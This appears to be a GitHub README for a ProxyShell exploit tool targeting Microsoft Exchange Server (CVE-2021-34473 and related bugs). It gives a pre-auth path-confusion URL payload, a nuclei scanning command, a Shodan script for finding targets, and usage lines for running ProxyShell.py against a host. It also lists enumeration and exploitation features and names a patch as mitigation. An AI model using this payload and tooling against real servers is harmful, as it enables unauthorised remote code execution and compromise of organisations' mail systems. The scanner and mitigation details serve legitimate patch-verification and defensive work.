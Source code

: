 # ProxyShell
CVE-2021-34473 Microsoft Exchange Server Remote Code Execution Vulnerability



## CVE-2021-34473 - Pre-auth Path Confusion
This faulty URL normalization lets us access an arbitrary backend URL while running as the Exchange Server machine account. Although this bug is not as powerful as the SSRF in ProxyLogon, and we could manipulate only the path part of the URL, it’s still powerful enough for us to conduct further attacks with arbitrary backend access.
```
https://xxx.xxx.xxx.xxx/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

1) CVE-2021-34523 - Exchange PowerShell Backend Elevation-of-Privilege
2) CVE-2021-31207 - Post-auth Arbitrary-File-Write





## Scanner
nuclei scanner for Proxyshell RCE (CVE-2021-34423,CVE-2021-34473,CVE-2021-31207) discovered by orange tsai in Pwn2Own, which affect microsoft exchange server.
```
nuclei -u target.com -t proxyshell.yaml
```

## shodan target 
```python
sudo python3 shodan-query.py
```


## Usage
```python
sudo python3 ProxyShell.py -u https://<IP>
```



### Features
* No email address needs to be supplied
* Attempts to enumerate emails from Active Directory
* Attempts to enumerate LegacyDNs from Active Directory
* Attempts to discover LegacyDNs from builtin emails
* Attempts to discover SID of Exchange server in load-balanced deployments
* Handles exploitation in load-balanced environments


### Mitigations
Apply the security updates found here: [CVE-2021-34473](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34473)




### Reference
* [proxylogon orange](https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html)
* [proxylogon orange 2](https://blog.orange.tw/2021/08/proxyoracle-a-new-attack-surface-on-ms-exchange-part-2.html)

